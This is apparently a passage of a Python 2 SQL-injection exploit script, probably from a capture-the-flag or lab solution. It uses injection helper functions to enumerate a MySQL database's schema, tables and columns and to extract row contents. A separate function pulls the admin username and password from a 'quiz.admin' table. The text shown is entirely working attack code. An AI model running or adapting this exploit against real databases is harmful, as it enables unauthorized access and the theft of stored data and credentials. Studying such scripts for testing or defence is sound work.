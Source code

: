 ```py
    query_schema = "SELECT table_schema FROM information_schema.tables WHERE table_schema != 'mysql' AND table_schema != 'information_schema' LIMIT 1"
    schema_len = sqli_len_query(query_schema)
    print "[+] Schema Name Length: {}".format(schema_len)
    schema_name = sqli_query(query_schema, schema_len)
    print "[+] Schema Name: {}\n".format(schema_name)

    # Enumerate Table Name
    query_table_name = "SELECT table_name FROM information_schema.tables WHERE table_schema = '{}' LIMIT 1".format(schema_name)
    table_name_len = sqli_len_query(query_table_name)
    print "[+] Table Name Length: {}".format(table_name_len)
    table_name = sqli_query(query_table_name, table_name_len)
    print "[+] Table Name: {}\n".format(table_name)

    # Enumerate Columns
    # Get number of columns
    query_table_columns_len = "SELECT COUNT(*) FROM information_schema.columns WHERE table_schema = '{}' AND table_name = '{}'".format(schema_name, table_name)
    col_count = sqli_len_query(query_table_columns_len)
    print "[+] Number of Columns: {}".format(col_count)

    # Enumerate all column names
    columns = []
    for i in range(0, int(col_count)):
        print "[+] Column #{}".format(i+1)
        query_table_columns = "SELECT column_name FROM information_schema.columns WHERE table_schema = '{}' AND table_name = '{}' LIMIT 1 OFFSET {}".format(schema_name, table_name, i)
        col_len = sqli_len_query(query_table_columns)
        print "[+] Column Name Length: {}".format(col_len)
        col_name = sqli_query(query_table_columns, col_len)
        print "[+] Column Name: {}\n".format(col_name)
        columns.append(col_name)

    # Exfiltrate row
    print "[+] Enumerating Row from '{}.{}'...".format(schema_name, table_name)
    for column in columns:
        query_table_content = "SELECT {} FROM {}.{} LIMIT 1".format(column, schema_name, table_name)
        row_len = sqli_len_query(query_table_content)
        print "[+] '{}' Length: {}".format(column, row_len)
        row_value = sqli_query(query_table_content, row_len)
        print "[+] {}: {}\n".format(column, row_value)

def speed_run():
    query_username = "SELECT username FROM quiz.admin LIMIT 1"
    username_len = sqli_len_query(query_username)
    print "[+] 'username' Length: {}".format(username_len)
    username = sqli_query(query_username, username_len)
    print "[+] 'username': {}\n".format(username)

    query_password = "SELECT password FROM quiz.admin WHERE username = '{}'".format(username)
    password_len = sqli_len_query(query_password)
    print "[+] 'password' Length: {}".format(password_len)
    password = sqli_query(query_password, password_len)
    print "[+] 'password': {}\n".format(password)

def main():
    full_enum()
    # speed_run()

if __name__ == "__main__":
    main()
```